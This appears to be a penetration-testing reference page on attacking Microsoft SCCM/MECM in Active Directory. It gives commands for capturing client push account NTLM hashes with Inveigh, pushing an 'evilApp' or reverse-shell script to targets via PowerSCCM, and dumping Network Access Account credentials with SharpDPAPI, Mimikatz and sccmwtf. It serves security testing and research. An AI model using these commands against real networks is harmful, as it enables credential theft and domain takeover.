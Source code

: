 # SCCM / MECM

## Theory

The **System Center Configuration Manager** (SCCM), now known as **Microsoft Endpoint Configuration Manager** (MECM), is a software developed by Microsoft to help system administrators manage the servers and workstations in large Active Directory environments. It provides lots of features including remote control, patch management, task automation, application distribution, hardware and software inventory, compliance management and security policy administration.

When SCCM is installed in an Active Directory, the clients can be deployed on the workstations by six different ways:

* Client push installation
* Software update-based installation
* Group Policy installation
* Manual installation
* Logon script installation
* Package and program installation

<details>

<summary>Client push installation</summary>

The first way of deploying SCCM is the **Client push installation** method, which is the default one and the least secure.&#x20;

This installation will use "client push accounts". They are service acounts with local administrative rights on the assets where SCCM will have to deploy some stuff. The system administrator creates groups of endpoints and for each of those, one "client push account". For each group, only one "client push account" can authenticate with administrator rights on the assets of this group. Thus, if an account is compromised, only the members of the corresponding group can be compromised in turn.

When the SCCM deployment is launched, it will basically try to authenticate with each client push accounts on each asset, and if the authentication fails, SCCM will try the next account in line. When the authentication succeeds, it moves to the following asset, and so on until the deployment is complete.

SCCM deployment via **Client push installation** is service accounts credentials spraying in a nutshell.

</details>

## Practice

### Client push installation

With a compromised machine in an Active Directory where SCCM is deployed via **Client Push Accounts** on the assets, it is possible to have the "Client Push Account" authenticate to a remote resource and, for instance, retrieve an NTLM response (i.e. [NTLM capture](ntlm/capture.md)). The "Client Push Account" usually has local administrator rights to a lot of assets.

In some case, the "Client Push Accounts"  could even be part of the Domain Admins group, leading to a complete takeover of the domain.

In order to retrieve the Client Push Account's authentication, all local admins must be removed from the compromised host, and a listener can be started on it with [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (C# or Powershell).

```powershell
# 1. Remove all the local Administrators on the compromised machine
net user <username> /delete

# 2. Listen for authentication with Inveigh
.\Inveigh.exe -Challenge 1122334455667788
```

Once the capturing/relaying listeners are started, the tester can wait for the Client Push Accounts to authenticate automatically. Hopefully, NTLMv1 will be used, allowing for easier NTLM cracking. There are other alternatives to cracking the response, like [relaying the authentication](ntlm/relay.md).

### Applications and scripts deployment

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode <site_code> -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 "<powershell_script_in_Base64>"

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```

If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.&#x20;

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

### SCCM credentials extraction with DPAPI

When non-domain joined computers need to retrieve software from a SCCM server, the SCCM endpoint will deploy **Network Access Accounts (NAA)** on them. The NAAs do nothing on the hosts but access resources across the network. Normally, the NAA account [should](https://docs.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/accounts#network-access-account) be configured with the least privilege and does not have interactive logon rights. But it appears that sometimes domain accounts are used for this task.

The NAA policy, including the NAA's credentials, is sent by the SCCM server and stored on the client machine, encrypted via DPAPI with SYSTEM's master key. With a SYSTEM (i.e. local admin) access on the target, it is possible to decipher the policy and retrieve the credentials.

{% hint style="info" %}
It appears that even after changing the NAA account or uninstalling the SCCM client, the credentials are still present on the disk.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [SystemDPAPIdump.py](https://github.com/fortra/impacket/pull/1137) (Python) can be used to decipher the WMI blob via DPAPI and retrieve the stored credentials. Additionally, the tool can also extract SYSTEM DPAPI credentials.

```bash
SystemDPAPIdump.py -creds -sccm 'DOMAIN/USER:Password'@'target.domain.local'
```
{% endtab %}

{% tab title="Windows" %}
With an elevated session on the target machine, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used to extract the SCCM credentials on the host.

```powershell
.\SharpDPAPI.exe SCCM
```

The tool [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for the same purpose with [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) , [`token::elevate`](https://tools.thehacker.recipes/mimikatz/modules/token/elevate) and [`dpapi::sccm`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/sccm).

```batch
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # dpapi::sccm
```
{% endtab %}
{% endtabs %}

### Network Access Account deobfuscation

A computer account has the ability to register itself with the SCCM server and request the encrypted NAA policies, decrypt them, deobfuscate them and retrieve the NAA's credentials in them.

The first step consists in controlling a computer account. One can be [created](domain-settings/machineaccountquota.md#create-a-computer-account) if the [Machine Account Quota](domain-settings/machineaccountquota.md) attribute is greater than 0.

{% content-ref url="domain-settings/machineaccountquota.md" %}
[machineaccountquota.md](domain-settings/machineaccountquota.md)
{% endcontent-ref %}

#### Enroll and retrieve the NAA policy

The SCCM attack can then be performed with [sccmwtf](https://github.com/xpn/sccmwtf) (Python). The new client to spoof doesn't need to be the previously created computer account (useful if you only have an existing computer account already enrolled).

The positional arguments are as follows:

* Spoof Name&#x20;
* Spoof FQDN&#x20;
* Target SCCM&#x20;
* Computer account username&#x20;
* Computer account password

{% code overflow="wrap" %}
```bash
sccmwtf.py "fakepc" "fakepc.domain.local" 'SCCM-Server' 'DOMAIN\ControlledComputer$' 'Password123!'
```
{% endcode %}

{% hint style="warning" %}
The tool author ([Adam Chester](https://twitter.com/\_xpn\_)) warns not to use this script in production environments.
{% endhint %}

#### Retrieve the credentials

Then, on a Windows machine, the two blobs (`NetworkAccessUsername` and `NetworkAccessPassword`) can be retrieved in plaintext by indicating only the hexadecimal part.

```powershell
.\policysecretunobfuscate.exe <blob_hex_1>
.\policysecretunobfuscate.exe <blob_hex_2>
```

## Resources

{% embed url="https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts" %}

{% embed url="https://enigma0x3.net/2016/02/" %}

{% embed url="https://docs.microsoft.com/en-us/powershell/module/configurationmanager/?view=sccm-ps" %}

{% embed url="https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9" %}

{% embed url="https://blog.xpnsec.com/unobfuscating-network-access-accounts/" %}
